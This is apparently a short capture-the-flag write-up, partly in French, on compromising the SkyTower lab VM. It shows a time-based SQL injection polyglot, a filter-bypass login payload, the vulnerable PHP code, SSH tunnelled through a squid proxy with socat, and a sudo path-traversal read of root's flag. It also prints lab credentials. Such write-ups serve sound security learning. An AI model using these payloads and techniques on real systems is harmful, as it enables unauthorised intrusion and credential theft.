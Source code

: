 # Skytower


Skytower is an intermediate level machine

What I learned:
+ SQLi simple filter
+ HTTP Proxying for ssh
+ ssh commands


## In brief

- Detect SQLi with ' or 5s delay polyglot
- Exploit SQLi with || and # 


## Nmap

````
nmap 192.168.56.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 06:00 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
````

## 80 : Login/password  SQLi

![login][skytower_login.jpg]

Detecter la sqli avec ' ou un polyglot
````
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
````

On devine que "SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT" sont filtrés
On utilise || à la place du OR 
````
a'   || 1=1;  #
````

On obtinet un login/pawwd ssh
Se logguer en ssh à travers le proxy HTTP via CONNECT  grace à socat 
Lancer une commande /bi/bash via ssh
Recupérer les access bdd dans la page php
Recupérer les credentials dans la bdd
sudo



cat /var/www/log*
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){ die('Unable to connect to database [' . $db->connect_error . ']'); }

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>






Username: john
Password: hereisjohn

socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
ssh john@locahost -p 9999
exit en fin de .bashrc 

ssh john@127.0.0.1 -p 9999 /bin/bash



dump la bdd pour trouver les pswd de xx et sara 



sara même blague du exit ds .bashrc 





$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ sudo /bin/ls /accounts/../../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower



